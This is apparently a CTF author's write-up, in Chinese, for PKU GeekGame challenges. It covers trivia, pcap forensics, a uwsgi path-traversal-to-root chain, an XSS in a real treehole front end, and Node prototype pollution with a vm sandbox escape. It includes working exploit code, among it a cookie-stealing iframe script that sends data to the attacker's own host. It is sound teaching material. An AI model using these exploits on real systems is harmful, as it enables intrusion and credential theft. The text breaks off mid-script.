# Writups by @xmcp

很荣幸为本届比赛出了 6 道题。【早期人类的聊天室】这题是赞助商提供的，但是我稍微修改了一下，同时也写了题面，算上它就是 7 道。

下面说一下每道题的预期做法，以及一些命题思路和比赛时观察到的情况。

预期解的代码和中间结果也都公开了，供参考。

因为本届题目部署的时间比较紧，很多题目没有交叉验题，导致出现了一些意料之外的坑点（签到和翻车的谜语人 Flag 2 依赖于一些特定的软件）或者题目比预期难（电子游戏概论 Flag 1）等等，在此谢罪。如果下届比赛我也参与出题的话一定找别人验题。


**附：**

**题目里出现的二刺螈梗出处一览**

- LoveLive 系列（题面里多处 You 酱和菜宝、小北问答题目 Flag “就从现在开始” 和 “谁也阻拦不住”）
- 刀剑神域（签到题 PDF 字体 SAO UI）
- 嘉然今天吃什么（小北问答第 5 题数字 672328094、早期人类的聊天室题面 “你今天吃什么”）
- 神楽七奈（小北问答第 5 题数字 386900246）
- 少女歌剧（翻车的谜语人音乐 ki-ringtrain 和文字 `Wakarimasu`）
- BanG Dream（翻车的谜语人题面麻里奈小姐）
- 原神（Q小树洞的一大步题目名称、人物「公子」和 UI 提示 “前面的区域以后再来探索吧”）
- 东方系列（Flag即服务题目 JSON 内容 `"age":17,"type":"monster"`）


**其他梗出处一览**

- 文明洞（Q小树洞的一大步题面 “就像海浪冲上沙滩，一切都是那么自然”）
- 上届比赛（小北问答题面 “听说 You 酱已经早在 5 月份就把课程辅导这项业务外包给了你”、翻车的谜语人题面 “确认了本届劳务费能否准时发放”、Q小树洞的一大步题面 “兆京大学”、早期人类的聊天室题面 “系统上线之前应该关闭调试开关”）
- Dijkstra 说的 “Goto Statement Considered Harmful”（Q小树洞的一大步 Flag “Eval Always Considered Harmful”）
- 鸿蒙系统（Flag即服务题面 “分布式软总线”）
- 野兽先辈（Flag即服务题目 JSON 内容 `"age":24,"type":"student"`、翻车的谜语人提示 `11:45:14`）
- Python requests 库宣传语 “*HTTP for Humans™*”（Flag即服务题目 README “*JSON file serving for Humans™*”）
- 诺基亚功能机的挖宝藏游戏（电子游戏概论游戏玩法）
- 陈江老师的课程电子游戏通论（电子游戏概论题目名称）
- Rick Astley 金曲（电子游戏概论 Flag “Nevva Gonna Give U Up”）
- 唐纳·川普（电子游戏概论 Flag “Nobody Digs Quicker Than Me”）
- 其他烂梗（翻车的谜语人题面 “量子波动算法” 和 “只是个猜想，不一定对”、Q小树洞的一大步树洞内容、早期人类的聊天室题目名称）


## →签到← (signin)

**预期解法**

签\~到\~题\~

解\~芙拉格。

附件下下来。

Chrome打开它。

全选，复制。



粘贴。



从上往下数，从左往右数。



全部拼起来，Flag读出来。

你学会了吗？


**命题思路**

如果使用了正确的打开方式，这题十分简单。命题的时候试了下 Chrome 和 Firefox 都能全选复制出所有文字，感觉问题不大，没想到还是坑到了那么多人（

根据后台提交记录来看，没做对的人很多都是因为没有复制出所有文字。有的 PDF 软件选择不到页面外的字符，比如 Acrobat，这种时候可以通过减小字号或者通过剪裁工具把页面调大。



最后一步“从上往下、从左往右”读Flag（专业术语叫做栅栏加密）思路倒是十分明显，只要注意到文字有两行而且等长，再注意看大括号的位置，不难发现规律。

有的选手反馈说此题使用不同软件做难度不一样，因此出得不好。我回想起《数学分析》曾经有一道作业题，用柯西很难做出来但是用洛必达做非常简单，可能那道题也出得不好。

有的选手好奇附件是怎么出出来的。首先用 PowerPoint 随便画个文本框，上面的字选择一个无法嵌入的字体（本题用的是 SAO UI），下面的字选择一个能嵌入的字体（本题用的是 Wingdings），导出成 PDF 之后再用 Acrobat 剪裁一下就行了。




## 小北问答 Remake (trivia)

**预期解法**

> #1
> 北京大学燕园校区有理科 1 号楼到理科 X 号楼，但没有理科 (X+1) 号及之后的楼。X 是？

答案是 `5`。

对校内选手来说是生活常识，不知道为什么有很多人（包括信科人）答了 6。校外选手可以百度 “北京大学理科5号楼” “北京大学理科6号楼” 等等，发现 6 号楼并不存在。

>#2
>上一届（第零届）比赛的总注册人数有多少？

答案是 `407`。

这个数据是我在第零届比赛的闭幕式上公布的。可以找到 [闭幕式的新闻稿](https://news.pku.edu.cn/xwzh/203d197d93c245a1aec23626bb43d464.htm)，里面有说 “本次大赛共有407人注册参赛，有效选手334人”。

> #3
> geekgame.pku.edu.cn 的 HTTPS 证书曾有一次忘记续期了，发生过期的时间是？

答案是 `2021-07-11T08:49:53+08:00`，这种时间格式是 ISO 8601，答案格式限定了秒数最后一位是3是为了避免歧义（有效期到53秒是在53秒过期还是54秒过期）。

HTTPS 证书有 Certificate Transparency 机制，比如 LetsEncrypt 产生的所有证书都留有公开记录可供查询。一个著名的查询网站是 [crt.sh](https://crt.sh/)。

在上面搜索 `geekgame.pku.edu.cn` 可以找到相关的所有证书。



发现 2021-07-11 到 2021-07-14 有明显的时间差，说明确实过期了。点进去可以看到精确的过期时间（注意转换时区）。



> #4
> 2020 年 DEFCON CTF 资格赛签到题的 flag 是？

答案是 `OOO{this_is_the_welcome_flag}`。

此比赛的组织者 OOO 为很多题目都创建了可以玩的快照，网址是 https://archive.ooo/。里面第一题就是这道题（事实上解出人数最多的也是这道题，所以不管怎么想它都是签到题）。

可以在这里看到当年的所有题目和排行榜：https://scoreboard2020.oooverflow.io/

> #5
> 在大小为672328094*386900246的方形棋盘上放3枚（相同的）皇后且它们互不攻击，有几种方法？

答案是 `2933523260166137923998409309647057493882806525577536`。

如果你知道著名的 OEIS，直接在里面搜索 “3 queens”，可以找到数列 [A047659](http://oeis.org/A047659)。如果你不知道 OEIS，就百度一下：



在 OEIS 里面的 “Formula” 一节有 Vaclav Kotesovec 给出的 n*m 棋盘的通项公式。拿 Python 算一下即可得到答案。

```python
import fractions
m = fractions.Fraction(386900246)
n = fractions.Fraction(672328094)
assert m<=n
one = fractions.Fraction(1) 
ans = n**3/6*(m**3 - 3*m**2 + 2*m) - n**2/2*(3*m**3 - 9*m**2 + 6*m) + n/6*(2*m**4 + 20*m**3 - 77*m**2 + 58*m) - one/24*(39*m**4 - 82*m**3 - 36*m**2 + 88*m) + one/16*(2*m - 4*n + 1)*(1 + (-1)**(m+1)) + one/2*(1 + abs(n - 2*m + 3) - abs(n - 2*m + 4))*(one/24*((n - 2*m + 11)**4 - 42*(n - 2*m + 11)**3 + 656*(n - 2*m + 11)**2 - 4518*(n - 2*m + 11) + 11583) - one/16*(4*m - 2*n - 1)*(1 + (-1)**(n+1)))
```

要注意运算时处处使用 Fraction 来避免损失精度。

另外此题的 n 和 m 是 [两个](https://space.bilibili.com/672328094) [管人](https://space.bilibili.com/386900246) 的B站 UID，并没有什么良好的代数性质。

一个遗憾的地方是此通项公式的出处 “Panos Louridas, idee & form 93/2007, pp. 2936-2938” 并不是一个公开可访问的资源，看起来 [需要交钱才能下载](https://www.kunstschach.ch/idee_form.html)（页面原文：“idee & form kostet CHF 40.- pro Jahr. Probehefte und Abonnements können bei Bruno Stucker bestellt werden. Auf Anfrage können noch fast alle bisher publizierten Hefte erworben werden.”，谷歌翻译：“idee & form costs CHF 40 per year. Trial books and subscriptions can be ordered from Bruno Stucker. Almost all previously published booklets can be purchased on request.”）。我们暂且只能相信 Vaclav Kotesovec 引用的是对的。

> #6
> 上一届（第零届）比赛的“小北问答1202”题目会把所有选手提交的答案存到SQLite数据库的一个表中，这个表名叫？

答案是 `submits`。

平台主页的 “资料推荐” 里有上届比赛资料存档，里面有所有题目源码。

查看 [此题代码](https://github.com/PKU-GeekGame/geekgame-0th/blob/main/src/choice/game/db.py) 发现相关语句 `create table if not exists submits (...)`。

> #7
> 国际互联网由许多个自治系统（AS）组成。北京大学有一个自己的自治系统，它的编号是？

答案是 `AS59201`。

有很多网站能搜索 BGP 信息，比如 https://bgp.he.net/。

直接输入 peking university 即可搜到答案。



注意 AS24349 是不对的，虽然在物理上这个 IX 处于北京大学，但里面包括了其他学校的路由前缀，不是北京大学 “自己的” 自治系统。AS59201 则完全是北大 “自己的”（此说法得到了计算中心的承认）。

> #8
> 截止到 2021 年 6 月 1 日，完全由北京大学信息科学技术学院下属的中文名称最长的实验室叫？

答案是 `区域光纤通信网与新型光通信系统国家重点实验室`。

百度 “北京大学 实验室列表”，点开第一条结果 https://www.lab.pku.edu.cn/，右边有一个按钮“实验室与设备共享查询系统”，进入 http://lab-equip-query.pku.edu.cn/Lab/LabInfo。

然后就可以搜索了。注意信科在这个系统里的名称是 “信息学院”。



其实这道题有点问题，因为在一些犄角旮旯的网站里能查到一些名字奇奇怪怪而且特别长实验室。此题的答案应该是没有歧义的，因为实验室购买设备和报销都与 lab-equip-query 系统关联，在这个列表里没有的实验室我们认为他们连公款买台电脑都做不到，大概是个空壳机构。但在比赛进行中我又不能透露存在这样一个系统，因此不太好解释哪些实验室算实验室，哪些不算实验室。最后只能用 “不包括联合成立的实验室” 这种含含糊糊的说法排除掉奇怪的实验室，但不幸的是，好像标答的实验室也是跟 SJTU 联合成立的……

不过还好这届的罚时比较友善，很多人都把答案试出来了。因此这个小问题就没有管。


**命题思路**

本届也一如既往地有考察搜索能力的题目。题目难度有些增加，但是这届去除了上届冷却时间倍增的机制，因此可以放心大胆地尝试答案。第一个 Flag 的要求从第零届的做对 5 道弱化为做对 4 道，使这道题成为了对于签到题翻车选手的事实上的签到题（

另外这届题目有好几道都是百度能搜出来的，上届的题目百度给出的结果都不太行。

这届相比于上届更加强调选手在搜索复杂问题时不要试图一步到位，而是搜索出一个好用的中间结果或者领域特定工具，然后再基于它得到最终答案（比如问 ASN 就搜 BGP 查询网站，问名字最长实验室就搜实验室列表等等）。

以下是每道题的解出人数，可见查到 OEIS 的人是最少的，查到 crt.sh 的人也不多。



部分题目的错误答案比较乐呵，在这里分享一下让大伙也乐一乐。

大家心目中的 DEFCON 2020 Quals 签到题 Flag：



大家心目中的数据库表名：



大家心目中的实验室名称：



这里面超长的那个名字大概是找到了 [这个网页](https://eecs.pku.edu.cn/info/1060/10794.htm)，这个网页排版有问题，它把回车都丢了，相当于微纳底下的所有实验室名字都给黏合到一起去了：



然后 “帝国理工学院郭毅可教授**访问**机器感知与智能教育部重点实验室” 这个名字……就挺新颖的。


## 翻车的谜语人 (ipynb)

**预期解法**

打开 pcap 发现很多扑面而来的加密流量。结合 DNS 包 “data.bilivideo.com” “s1.hdslb.com” 不难推测这些流量是出题人在后台挂了一个B站直播间，并没有什么重要内容在里面，而且反正也加密了，什么都提取不出来。

把这些流量排除之后发现出题人在使用 Jupyter Notebook。Wireshark 看 HTTP 流量比较费劲，我们可以把 pcap 导入到专门抓 HTTP 包的软件里去看，比如 Fiddler。这样看起来就相当清晰了。



从 `http://192.168.17.128:28888/api/contents/Untitled.ipynb?type=notebook&_=1636184673805` 这个响应可以看到出题人用代码生成了两个随机 Flag，进行了一些加密，然后把结果导出到了文件 `flag1.txt` 和 `flag2.txt`。Notebook 的具体代码如下：

```python
import zwsp_steg
from Crypto.Random import get_random_bytes

import binascii

def genflag():
    return 'flag{%s}'%binascii.hexlify(get_random_bytes(16)).decode()

flag1 = genflag()
flag2 = genflag()

key = get_random_bytes(len(flag1))

key
# 此行输出是 b'\x9a\xb85E\xfe>\x03\x1f\xdaH,\xea\xa6\xa5\x98o3\x91s\x98\x97\xd3\xb4\xf0\x15\x08X!\x8f-\x8f\x9b\xed\xb51\xfe\xdc'

def xor_each(k, b):
    assert len(k)==len(b)
    out = []
    for i in range(len(b)):
        out.append(b[i]^k[i])
    return bytes(out)

encoded_flag1 = xor_each(key, flag1.encode())
encoded_flag2 = xor_each(key, flag2.encode())

with open('flag1.txt', 'wb') as f:
    f.write(binascii.hexlify(encoded_flag1))
    
with open('flag2.txt', 'wb') as f:
    f.write(binascii.hexlify(encoded_flag2))
```

（其实 `import zwsp_steg` 这个库完全没用到，我本来在这里多套了一层隐写，但感觉很无聊就给去掉了，import 忘了删）

另一段流量 `http://192.168.17.128:28888/api/contents/flag1.txt?type=file&format=text&_=1636184605693` 暴露了 flag1.txt 的内容，这样就可以直接解出 Flag 1 了。解码过程如下：

```python
import binascii

def xor_each(k, b):
    assert len(k)==len(b)
    out = []
    for i in range(len(b)):
        out.append(b[i]^k[i])
    return bytes(out)

flag1 = binascii.unhexlify(open('flag1.txt').read())
key = b'\x1e\xe0[u\xf2\xf2\x81\x01U_\x9d!yc\x8e\xce[X\r\x04\x94\xbc9\x1d\xd7\xf8\xde\xdcd\xb2Q\xa3\x8a?\x16\xe5\x8a9'

print(xor_each(key, flag1))
```

注意到出题人在 Jupyter Notebook 里打开了一个终端，对 flag2.txt 进行了一些处理。Jupyter Notebook 里终端用 WebSocket 协议通信。以下是终端产生的一个 WebSocket 流量示例：



可以提取出运行的共 3 条命令如下：

```bash
$ pip3 install stego-lsb
$ stegolsb wavsteg -h -i ki-ringtrain.wav -s flag2.txt -o flag2.wav -n 1
$ 7za a flag2.7z flag2.wav -p"Wakarimasu! `date` `uname -nom` `nproc`"
```

（注意最后一条命令的输入方式是先输入了 `-p""`， 然后按左箭头，然后输入里面的文本。因此流量里面看着有点奇怪。）

随后出题人下载了 flag2.7z 这个文件（是加密的）。

通过第 3 条命令我们已经知道了此文件密码的格式，但是密码的具体内容仍需要我们破译。

此机器的一些环境信息可以通过 7za 回显的调试信息得到：



可知 `nproc` 为 8。

`uname` 的输出内容[在维基百科上有](https://en.wikipedia.org/wiki/Uname)。`uname -m` 为 `x86_64`。`uname -o` 为 `GNU/Linux`。`uname -n` 是主机名，为 `you-kali-vm`，这个在 Shell Prompt 里有。

`date` 是一个坑点，需要推算一下。首先 pcap 是包含精确的绝对时间信息的，在 Wireshark 里可以如下图所示打开，得到按下回车的时间是 15:44:15.149 秒左右。



如果不用 pcap 的绝对时间信息，可以根据其他 HTTP 响应里的 `Date` 头，通过相对时间之差推算出运行命令的时间，就是精度可能会差一秒：



7za 的回显告诉了我们 locale 是 `en_US.utf8`，英语的时间格式可以网上多找几篇英语教程里面的格式试试看，时区也需要猜测（实际上采用的时区是中国标准时间，很好猜到）。

压缩包完整密码是 `Wakarimasu! Sat 06 Nov 2021 03:44:15 PM CST you-kali-vm x86_64 GNU/Linux 8`。如果选手未能破译出上述命令，也可以编写字典在合理的次数内猜测出密码，暴力破解压缩包密码真的挺快的。

拿到压缩包里的 `flag2.wav` 文件后提取出 `flag2.txt` 即可用与之前一样的方法得到 Flag 2。 


**命题思路**

Flag 1 是比较简单的流量分析任务，只需要肉眼看看 HTTP 流量即可得到答案。

Flag 2 一方面需要分析 WebSocket 流量得到命令行，另一方面需要通过对机器环境的推理和小范围猜测得到压缩包密码，有一定工作量。但是就算推理不出来，也可以力大砖飞跑字典（

有一些选手发现自己的系统就算调成英文语言，日期格式和此题也不一样，比如月和日的顺序是反过来的，一位数日期会补空格而不是补 0，是 24 小时制等等。我出题的时候看了看手里阿里云的 Ubuntu 发现默认配置下 `date` 就是此题这个格式，在网上有一个教程也是这个格式 [(下图↓)](https://phoenixnap.com/kb/linux-date-command)，所以就没考虑那么多。后来发现确实有很多不一样的格式，如果你因为日期格式不对而卡住那么深表歉意。虽然说该做还是能做（把常见格式排列一下生成一个字典肯定能跑出来），但原本没想考察这方面的，200 分的 Misc 题搞出这么一下是我的锅。



有很多选手在 Writeup 里说 “两个 Flag 的加密 Key 不一样”，事实上是一样的，我不知道是为什么这么说。抓包的时候确实能看到两个 key，因为我运行的流程是打开 ipynb（此时残留着上次的输出），然后从上到下 ctrl+enter 跑一遍保存退出，最后再重新打开一遍 ipynb。因此第一次打开 ipynb 时 Key 的内容是之前一次运行的结果，第二次打开才是实际跑的时候用到的（两个 Flag 的 Key 都是这个）。

有个别选手时间搞错了，弄成了下一秒的时间（15:44:16）。注意到执行压缩命令其实是分为了几个步骤：

1. 输入那长串指令
2. 按回车（15:44:15.149）
3. 7za 显示开头那一段回显（15:44:15.190）
4. 7za 压缩文件
5. 7za 运行结束，回到 shell（15:44:16.320）

因为密码是在命令行参数提供的，因此对密码求值的时刻在 Bash 运行 7za 之前（第 2 步到第 3 步之间）。如果你是通过生成的 .7z 文件的时间戳来算的，那么这个时间是在第 4 步到第 5 步之间，二者有大约一秒的差异。


## 早期人类的聊天室 (uwsgi)

**预期解法**

首先容易在 `chatlog` 功能中发现一个路径穿透漏洞，可以通过类似于 `/module?name=chatlog&log=../../../../etc/hosts` 访问任意文件。

通过 `/proc/self/cmdline` 得知当前进程的命令行，通过 `/proc/self/status` 得知进程信息和父进程 PID。这样可以一路缕清进程之间的调用关系：

```
(PID=1 UID=0) /sbin/docker-init -- sh run.sh
 (PID=8 UID=0) /usr/local/bin/python /usr/local/bin/supervisord -n -c /etc/supervisor-ctf.conf
  (PID=54 UID=65534) uwsgi --ini /tmp/uwsgi-ctf.ini
   (PID=57 UID=65534) uwsgi --ini /tmp/uwsgi-ctf.ini
```

可以看到 uwsgi 是用 Nobody 用户在跑，权限比较低，因此直接读 `/flag` 是读不到的。

搜索发现 [uwsgi 可以任意代码执行](https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi-rce-zh.md)，只要能与 uwsgi 绑定到的内部端口通信即可。这是可以做到的，因为 chatbot 可以给本机任意端口发送任意内容。读取 `/tmp/uwsgi-ctf.ini` 发现 uwsgi 端口号是 3031。

把这个漏洞的利用代码下载下来，略微修改使得它输出 base64 编码后的信息，运行一下：



可以看到命令运行成功。`ls -al /` 命令的输出表明 `/flag` 的所有者是 root，权限是 0600：



因此需要提权到 root 用户才能拿到 Flag。回顾上面的进程关系，发现 supervisord 是用 root 跑的，但是 uwsgi 在配置文件 `/tmp/uwsgi-ctf.ini` 里把自己降权到了 nobody：



但由于这个文件在 /tmp 目录下，我们有写权限，因此可以删掉这段降权的配置。如果我们在修改完配置文件后设法让 uwsgi 崩溃，随后 supervisord 以 root 身份重启 uwsgi，uwsgi 重新读取配置文件，整个攻击就能打通了。

首先通过命令 `echo ... | base64 -d > /tmp/uwsgi-ctf.ini` 修改配置文件，比如说预期解法是往配置文件里加一行 `file-write= /tmp/f=@(/flag)`。

然后运行命令 `uwsgi --reload /tmp/uwsgi.pid`。此时 uwsgi 会因为读不到 /flag 而崩溃，然后被 supervisord 重启。有人问为什么要让 uwsgi 崩溃才行，因为如果 uwsgi 不崩溃，它自己（已经降权到 nobody 了）重启自己始终逃不开 nobody，而 supervisord 是 root，只有叫 root 启动它才能是 root。

这样一来 uwsgi 就完成了提权，可以得到 Flag。


**命题思路**

本题由赞助商蚂蚁金服提供，事实上原始出题人就是 GitHub 那个代码执行脚本的作者 [@wofeiwo](https://github.com/wofeiwo)。

我稍微修改了一下题目以降低难度（在题面提示了 Flag 的路径、提示了 “配置了正确的权限”、提示了服务器是 uwsgi，然后放了部分源码），其他地方都没改。


## Q小树洞的一大步 (webhole)

**预期解法**

首先，这种现代的基于 React 的 Web App 很少会出现传统的 "`<script>alert(1)`" 这种傻瓜式 XSS，因为这些库基本上只要用法正确就不会有 XSS 的可能性。

对于此类现代 Web App，基本操作是审计代码逻辑，看有没有高危操作，比如 `eval` 或者其他等价操作（`new Function("...")`、`link.href="javascript:..."`、`elem.innerHTML = "..."` 等等）。直接在代码里搜索 `eval` 即可发现惊喜：





阅读代码发现这个 eval 实际上是一个代码 “热修复” 的业务逻辑，页面启动后请求 `static/appswitcher_items.json`，如果响应中包含 `fix` 字段就执行代码。这是因为树洞是一个 PWA，前端代码有缓存，代码改变后用户第二次访问时才能更新到新版本，因此万一出现了恶性 bug 需要有办法跳过缓存直接在用户浏览器上执行代码强制更新。

继续分析这个业务逻辑，发现在请求完 JSON 后会把它缓存到 `localStorage['APPSWITCHER_ITEMS']`，下次直接从 localStorage 读取。因此如果能任意覆盖这个值，就能执行任意代码。

那么，如何覆盖呢？继续搜索关键词 `localStorage`，发现另一段业务逻辑：



如果用户在搜索框输入 `//setflag key=value`，就会执行 `localStorage['key'] = 'value'`。这个功能其实有历史渊源，在网页树洞的上古时期是没有设置页面的，要想修改什么参数只能通过这个方式改。此后增加了设置页面，但由于有一些功能不便放在 UI 里（你可以试试 `//setflag DELETION_DETECT=on`），因此就保留了这个设置 “隐藏参数” 的功能。

那么，如何伪造用户在搜索框的输入呢？树洞的另一段业务逻辑是，页面加载时自动搜索 URL `#` 后面的文字。比如访问 `/hole/##1234` 就会自动在搜索框输入 `#1234` 并提交：



这样一来，做法就呼之欲出了。在恶意网页里通过 `<iframe>` 等方式加载 `https://prob15-qkuhole.geekgame.pku.edu.cn/hole/#` 后面接 `//setflag APPSWITCHER_ITEMS={"switcher_2": {"fix": {"hole": "..."}}}`，就会发生以下事情：

- URL 识别逻辑把 URL 后面的内容搬运到搜索框并触发搜索
- 搜索逻辑检测到隐藏参数，把 localStorage 修改为指定的内容
- 下次访问时从 localStorage 读取代码并执行

最终攻击脚本如下：

```html
<iframe sandbox="allow-scripts allow-same-origin" id="frame"></iframe>
<script>
let frame = document.getElementById('frame');
let HOLE_URL = 'https://prob15-qkuhole.geekgame.pku.edu.cn/hole/';
let PINGBACK_URL = new URL('pingback.html', location).href;

async function sleep(ms) {
    return new Promise((resolve)=>{
        setTimeout(resolve,ms);
    });
}

let exp_items = {
    "switcher_2": {
        "bar":[],
        "dropdown":[],
        "fix":{}
    }
}
exp_items.switcher_2.fix = {
    hole: 'location.href="' + PINGBACK_URL + '"+String.fromCharCode(63)+encodeURIComponent(document.cookie);',
};

async function exp() {
    // set up cache
    frame.src=HOLE_URL;
    await sleep(1200);
    frame.src=0;
    await sleep(100);
    // fire
    let fire_url = HOLE_URL+'#'+encodeURIComponent('//setflag APPSWITCHER_ITEMS='+JSON.stringify(exp_items));
    frame.src=fire_url;
    await sleep(450); // less than 500ms so that it has no chance to fetch new switcher items
    frame.src=0;
    await sleep(100);
    // get token
    location.href=HOLE_URL;
}

exp();
</script>
```

这里注意 `sandbox="allow-scripts allow-same-origin"` 是为了避免树洞弹出 alert 坏了我们的好事（selenium 不支持 alert）。

部署到自己的服务器上之后给 XSS Bot 喂这个网址，在 access log 里找 `pingback.html` 即可看到 Flag：



注意有一个坑是 Chrome 会默认阻断 `<iframe>` 中第三方网页的 Cookie，因此最后一步需要用 `location.href` 跳转而非 `frame.src`，否则偷不到 Cookie 中的 Flag。


**命题思路**

有选手可能会骂：这 XSS 设计得也太强行了吧？

但实际上，这是网页版P大树洞真实存在的漏洞，<del>而且还是我的锅</del>，没有任何人工设计的部分。实际上这题的源码基本和P大树洞完全一致，只是把登录功能和 API 网址改了改。

因为这个漏洞涉及到的 3 个功能（代码热修复、在搜索框更新隐藏参数、识别 URL 中的搜索词）都是看起来十分正常的业务逻辑，所以存在了大约一年都没发现。在今年夏天，宿舍热得睡不着觉，我在床上胡思乱想的时候突然发现这几个逻辑可能有问题，写了个 exp 发现可以打，于是上报了这个漏洞。有些其他树洞也采用了相同的前端，因此也有类似的问题，我尽量联系了对应站长告知修复方式。


## Flag即服务 (json)

**预期解法**

首先发现有路径穿越漏洞，可以读取任意 JSON 文件：



路径穿越通常是 Web 题目的起手式，事实上这届比赛 3 个 Web 题目都涉及到了路径穿越。但请注意这个路径穿越有一点不同的地方，在浏览器里或者使用 curl、requests 等库访问这个网址是不行的，因为这些软件会按照 RFC 3986 [在发送请求之前 “净化” URL 中的 .. 部分](https://stackoverflow.com/questions/20476872/what-is-the-reasoning-chrome-resolves-double-dot-in-uri)，效果如下：



Fiddler 等抓包软件和 Python 的 urllib 不会做这件事。

通过路径穿越读取 `package.json`，它告诉了我们题目源码地址 `https://geekgame.pku.edu.cn/static/super-secret-jsonaas-backend-1.0.1.tgz`，下载下来即可看到 Flag 0：





数学好的朋友请注意不要算成 0.3，至于为什么 0.1+0.2 是这个值参见 CSAPP 第二章。

有些选手不明白如何才能意识到需要读 `package.json`。

第一种思路是，这个玩意只能看（不超过 4KB 的）JSON 文件，而 README 里写的 `npm install` 那个命令说明一定存在这样一个 JSON 文件，那下载下来看看总归没有坏处。

第二种思路是，如果你直接访问 `/api/`，可以看到报错信息：



这里明示了 `jsonaas-backend` 在 `node_modules` 里，因此肯定是 `npm install` 给装上的。所以可得 `package.json` 里有好东西。

**（Flag 1 和 Flag 2 需要审计源码。如果你此前还没有阅读过题目源码，请在继续往下看之前好好读一遍。下面将假设你看过了源码。）**

如果想得到 Flag 1，可以考虑通过[原型链污染攻击](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution)覆盖 `({}).constructor.prototype.activated` 为一个非空值，来通过下面这段代码的判断：



审计 `/api` 进行的操作，发现试图通过 waf 函数防止原型链污染（以下代码经过节选以只保留与原型链污染相关的部分）：

```javascript
function waf(str) {
    for(let bad_name of Object.getOwnPropertyNames(({}).__proto__))
        if(str.indexOf(bad_name)!==-1)
            return true;
    return false;
}

app.get('/api/:path(*)', (req, res)=>{
    let out_path = req.query.out_path||'';
    let prefix = '';
    
    if(waf(out_path)) {
        res.send('Bad parameter!');
        return;
    }
    
    out_path = prefix + out_path;
    out_path = out_path.split('/').filter(x=>x!=='');
    
    let cur = output;
    for(let term of out_path.slice(0, out_path.length-1)) {
        if(term.indexOf('_')!==-1) {
            res.send('Bad parameter!');
            return;
        }
        if(cur[term]===undefined)
            cur[term] = {};
        cur = cur[term];
    }
    cur[out_path[out_path.length-1]] = data;
});
```

如果 `out_path` 是一个字符串的话，只要它包含 waf 函数识别的那些子串（`indexOf` 不是 -1），就会拒绝执行。

但 `out_path` 不一定是个字符串。因为 `out_path` 来自于 URL 的参数部分，而 `express` 通过 `qs` 库解析参数，[这个库允许参数是一个数组](https://www.npmjs.com/package/qs)。例如如果 URL 是 `?out_path[]=12&out_path[]=34`，则 `out_path` 实际的值是 `["12", "34"]`。利用此处的弱类型可以绕过识别。

我们输入 `?out_path[]=constructor/prototype/activated`，此时 waf 函数会检查 `["constructor/prototype/activated"].indexOf(...)` 注意到此处调用的是数组（而非字符串）的 `indexOf`，于是通过检查。运行到后面 `out_path = prefix + out_path;` 时由于 `prefix` 是一个字符串，在做加法的时候会把 `out_path` 的类型转换回字符串，于是偷天换日成功。

获得 Flag 1 的代码如下：

```python
import requests
s = requests.Session()

SERVER_URL = 'https://prob11-xxxxxxxx.geekgame.pku.edu.cn'

def get_flag1():
    txt = s.get(SERVER_URL+'/api/demo.json?out_path[]=constructor/prototype/activated').text
    assert txt=='{}'

    flag1 = s.get(SERVER_URL+'/activate').text
    print(flag1)
    assert 'flag{' in flag1
```

Flag 2 比较困难。首先我们希望启用代码的 `eval` 功能，但是面临着两个障碍：

- 上面的代码只能把 `activated` 设置成一个非空的值，但不是 1，因此不满足 `/eval_settings` 中的判断。
- 事实上 `/eval_settings` 根本访问不到，因为有一个 middleware 直接阻断了所有以 `settings` 结尾的 URL。

为了解决第 1 个障碍，可以通过 `in_path` 构造出一个值是 1 的东西，比如：



为了解决第 2 个障碍，可以访问 `/eval_settings/`。`express` 库的路由规则比较宽松，在 URL 后面加一个斜杠也能匹配到。

于是，可以这样启用 `eval` 功能：

```python
def enable_eval():
    txt = s.get(SERVER_URL+'/api/demo.json?in_path[]=constructor/length&out_path[]=constructor/prototype/activated').text
    assert txt=='{}'
    
    flag1 = s.get(SERVER_URL+'/activate').text
    print(flag1)
    assert 'flag{' in flag1
    
    txt = s.get(SERVER_URL+'/eval_settings/?eval=on').text
    assert txt=='Eval set to 1'
```

启用之后，我们就可以执行任意代码了。`/api` 里面有一段非常恶心的判断，让我们执行的代码里不能出现字母和很多符号：

```javascript
if(eval_mode && /^\([^a-zA-Z"',;]+\)$/.test(term))
    term = safe_eval(term);
```

这个判断可以通过 [JSFuck](http://www.jsfuck.com/) 绕过。JSFuck 可以把任意代码混淆成只含有 `()+[]!` 六种符号，从而通过上述判断。

那么，如何得到 Flag 2 呢？看起来服务器在启动之前读完 `flag2.txt` 就把它删除了，而且 `FLAG2` 也被设置成了 `null`，但是注意到打开的 `flag2.txt` 文件没有关闭，因此它还存在于 `/proc/xxx/fd/xxx` 里面。

看看 `safe_eval` 是如何执行我们代码的，它会开一个子进程然后把我们的代码放到一个沙箱里执行：

```javascript
const child_process = require('child_process');

const CLIENT_CODE = `
const vm = require("vm");
const code = __USERCODE__;
console.log(vm.runInNewContext(code, {}));
`;
const TIMEOUT_MS = 1000;

function safe_eval(s) {
    let code = CLIENT_CODE.replace('__USERCODE__', JSON.stringify(s));
    try {
        let stdout = child_process.execFileSync('/usr/local/bin/node', ['-'], {
            input: code,
            env: {},
            timeout: TIMEOUT_MS,
            encoding: 'utf-8',
            killSignal: 'SIGTERM',
        });
        return stdout.trim();
    } catch(_) {
        return s;
    }
}
```

事实上 NodeJS 的 `vm` 沙箱是非常脆弱的，基本上没什么卵用，通过 `constructor.constructor("fs=require('fs'); ...")()` 这样的代码 [就能为所欲为](https://thegoodhacker.com/posts/the-unsecure-node-vm-module/)。

于是写出以下代码用于读取父进程仍未关闭的 `flag2.txt`，把它复制到 `/tmp/1`：

```javascript
constructor.constructor('f=require("fs");f.writeFileSync("/tmp/1",JSON.stringify(f.readFileSync(`/proc/${process.ppid}/fd/20`)))')()
```

这里文件描述符 20 的具体值取决于 NodeJS 的一些内部行为，选手可以本地部署相同的环境得到描述符的数值，或者多试几次总能试出来。

于是把上述代码用 JSFuck 混淆一下：



然后发送过去，就能在 `/tmp/1` 接收到 Flag 2。以下是获得 Flag 2 的代码：

```python
import urllib.request

# `jsfuck`ed constructor.constructor('f=require("fs");f.writeFileSync("/tmp/1",JSON.stringify(f.readFileSync(`/proc/${process.ppid}/fd/20`)))')()
shellcode = '[][(![]+[])[+[]]+(![]+[])[!+[]+!...'

def urllib_req(url): # because `requests` cannot do path traversal
    txt = urllib.request.urlopen(url).read().decode('utf-8')
    return txt

def quote(s):
    return s.replace('+', '%2B')

def get_flag2():
    enable_eval()
    
    url = SERVER_URL+'/api/demo.json?in_path=(%s)'%quote(shellcode)
    txt = s.get(url).text
